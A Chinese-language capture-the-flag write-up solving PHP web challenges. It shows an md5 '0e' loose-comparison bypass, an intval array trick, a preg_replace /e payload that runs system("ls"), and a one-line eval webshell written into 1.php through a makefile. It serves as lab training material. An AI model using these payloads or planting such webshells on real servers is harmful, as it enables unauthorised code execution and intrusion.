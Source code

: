 条件：if ($XY == $XYCTF)，if ($XY != "XYCTF_550102591" && md5($XY) == md5("XYCTF_550102591"))  
第一个$XY == $XYCTF，$XY要和$XYCTF相同，可以根据开头的extract($_GET);给XYCTF重新赋值  

PHP在线平台测试

```php
// 测试
md5("XYCTF_550102591")
// 结果
0e937920457786991080577371025051
```

这个结果0e开头，可以用第一层if语句的0e字符串  
> payload：XY=byGcY&XYCTF=byGcY  

进入第二关  

### 正则函数的使用

#### 第一层if语句2.0

条件：

```php
if (isset($_POST['a']) && !preg_match('/[0-9]/', $_POST['a']) && intval($_POST['a']))
```

要求：POST方法定义了a,且变量a不含数字，intval()函数后不为0  
这下好了，连字符串**1a**的特性都用不了，那我们还可以用数组  
tip:**intval()函数操作数组时会报错并返回1 满足条件，绕过

#### 最后

出题人给了一个正则函数，美针针  

```php
preg_replace($_GET['a'],$_GET['b'],$_GET['c']);
```

第一部分是正则表达式，第二部分是操作，第三部分是目标  
在第一部分：/abcd/e的abcd，它会匹配第三部分目标中的abcd，替换为第二部分的操作或者字符串,**e**参数会将第二部分作为php代码执行
> payload：?a=/abcd/e&b=system("ls")&c=abcd  
最后你可以在根目录下找到flag

## ezmake

这两题的ezmake,我的做法是写木马进去（makefile

> 你可以参考这个[文章](https://the0n3.top/#/linux/02echo-printf-file)  

你可以使用echo '字符串'，这样来测试那些内容有过滤，如/，;  是黑名单

没什么过滤，直接使用echo写一个php马进去  

```php
echo '<?php eval($_POST[a])?>' > 1.php
```

执行后发现它把$简单过滤了一次，再写一次发现就可以了
